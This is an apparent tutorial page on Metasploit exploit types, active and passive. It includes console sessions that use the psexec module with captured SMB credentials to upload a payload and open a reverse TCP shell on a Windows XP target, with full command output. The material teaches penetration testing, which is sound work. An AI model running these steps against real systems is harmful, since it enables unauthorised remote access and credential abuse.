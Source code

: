 All exploits in the Metasploit Framework will fall into two categories: active and passive.

**Active Exploits**

- Active exploits will exploit a specific host, run until completion, and then exit.

        Brute-force modules will exit when a shell opens from the victim.
        Module execution stops if an error is encountered.
        You can force an active module to the background by passing ‘-j’ to the exploit command:


```bash
msf exploit(ms08_067_netapi) > exploit -j
[*] Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

***Example***

The following example makes use of a previously acquired set of credentials to exploit and gain a reverse shell on the target system.


```bash
msf > use exploit/windows/smb/psexec

msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

[*] Connecting to the server...
[*] Started reverse handler
[*] Authenticating as user 'victim'...
[*] Uploading payload...
[*] Created \hikmEeEM.exe...
[*] Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
[*] Obtaining a service manager handle...
[*] Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
[*] Closing service handle...
[*] Opening service...
[*] Starting the service...
[*] Removing the service...
[*] Closing service handle...
[*] Deleting \hikmEeEM.exe...
[*] Sending stage (240 bytes)
[*] Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

**Passive Exploits

- Passive exploits wait for incoming hosts and exploit them as they connect.

        Passive exploits almost always focus on clients such as web browsers, FTP clients, etc.
        They can also be used in conjunction with email exploits, waiting for connections.
        Passive exploits report shells as they happen can be enumerated by passing ‘-l’ to the sessions command. Passing ‘-i’    will interact with a shell.







